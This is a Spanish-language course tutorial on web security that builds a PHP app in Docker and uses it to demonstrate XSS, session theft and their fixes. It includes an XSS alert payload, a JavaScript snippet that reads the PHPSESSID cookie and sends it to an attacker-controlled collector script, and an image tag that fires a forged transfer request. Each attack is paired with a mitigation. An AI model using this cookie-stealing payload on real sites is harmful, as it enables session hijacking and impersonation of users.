 ```yaml
---
typora-copy-images-to: ../myassets/img
typora-root-url: ../
layout: post
title:  "Seguridad Web I"
date:   2021-03-01 21:50:01 +0100
categories: PePS
---
```


       Diego Camañ                         Google Cloud                            PePS   

#                                                                                       SEGURIDAD WEB I



Como vamos a utilizar GitHub para gestionar cambios en los ficheros creamos en local la carpeta *validacion*

Y la metemos en GitHub

```
echo "# validacion" >> README.md
git init
git add README.md
git commit -m "first commit"
git branch -M main
git remote add origin https://github.com/dicabel/validacion.git
git push -u origin main
```

Buscamos “docker apache php”, una vez localizado lo instalamos

```
sudo docker pull php
```

 Siguiendo las intruccuiones de  https://hub.docker.com/_/php

creamos el fichero Dockerfile

```
FROM php:7.4-cli
COPY . /usr/src/miapp
WORKDIR /usr/src/miapp
CMD [ "php", "./post.php" 
```

Incluyendo en post.php lo siguiente:

```
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>

<?php
if ($_SERVER['REQUEST_METHOD'] == "GET") {
?>
<p>Nuevo Post</p>
<form action='post.php' method='post'>
	<textarea name="textarea" rows="10" cols="50">Escribe algo aquí</textarea>
	<input type = 'submit' value='enviar'>
</form>
<?php
}else
	echo $_POST["textarea"] ?? "";
?>
</body>
</html>
```





Subimos los cambios a GitHub

```
git add .
git commit -m "primer post.php"
```



Construímos del docker

```
sudo docker build -t mi-php-app .
```

y lo ejecutamos

```
sudo docker run -it --rm -p 8080:80 --name webgood mi-php-app
```

```
Al ejecutarlo en el navegador si introducimos en el formulario

```

```
<script>alert('hackeado')</script>
```



Vemos que se ejecuta el script de "hackeado"



Para mitigar XSS cambiaremos nuestro `post.php`

```
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>

<?php
if ($_SERVER['REQUEST_METHOD'] == "GET") {
?>
<p>Nuevo Post</p>
<form action='post.php' method='post'>
	<textarea name="textarea" rows="10" cols="50">Escribe algo aquí</textarea>
	<input type = 'submit' value='enviar'>
</form>
<?php
}else
	echo htmlspecialchars($_POST["textarea"]) ?? "";
?>
</html>
```

de esta forma al introducir un script el código se convierte en simple texto



# SESIONES

Ejemplo de `login.php`

```
<?php
session_start();

//En una aplicación real, los usuarios estarían almaenados en la base de datos
$all_users = array ("mario" => "qwerty", "juan" => "123456");
$valid_users = array_keys($all_users);

$ya_registrado = $_SESSION['ya_registrado'] ?? false;


if ($_SERVER['REQUEST_METHOD'] == "POST" && !$ya_registrado){
	$usuario = $_POST['usuario'] ?? "";
	$password = $_POST['password'] ?? "";
    
	$ya_registrado = (in_array($usuario, $valid_users)) && ($password == $all_users[$usuario]);
	if ($ya_registrado){
		$_SESSION['ya_registrado'] = true;
		$_SESSION['usuario'] = $usuario;
	}
}

if ($ya_registrado){
	// Si llega aqui es porque es un usuario válido.
	echo "<p>Welcome " . $_SESSION['usuario'] . "</p>";
	echo "<p>Congratulations, you are into the system.</p>";
}else{
?>
	
	<form action='login.php' method='post'>
		Usuario: <input type='text' name = "usuario" id="usuario" value=""><br>
		Contraseña: <input type='password' name = "password" id = "password" value=""><br>
		<input type='submit' value='Enviar'>
	</form>
<?php
}
?>
```



## Robo de sesión

Creamos dos Dockers, uno como el atacante (evil) y otro como víctima (good)

En evil crearemos `robo-de-sesion.php`

```
<?php
$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = 'sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
```

y en good el atacante habrá conseguido introducir `hackeada.php`donde enviará la cookie de la víctima al atacante

```
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local 
o a http://127.0.0.1:8087/
<img src='http://127.0.0.1:8088/public_html/transfer.php?quantity=1000&user=juan'>

<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://127.0.0.1:8087/public_html/robar-session.php?session_robada=" + c;
</script>
</body>
</html>
```

Si la víctima después de validarse ejecuta `hackeada.php`

el atacante puede cambiar el valor de `PHPSESSID`en la página de `login.php`con la cookie robada y suplantar al usuario legítimo.

Para evitar este robo de sesión podemos utilizar la cabecera `HttpOnly`y asegurarnos de que solo se envien cookies sobre conexiones seguras.

Modificando el inicio de `login.php`con



```
<?php
ini_set( 'session.cookie_httponly', 1 );
session_start();
```

lograremos que al visitar `hackeada.php`por parte de la víctima no envie la cookie al atacante.

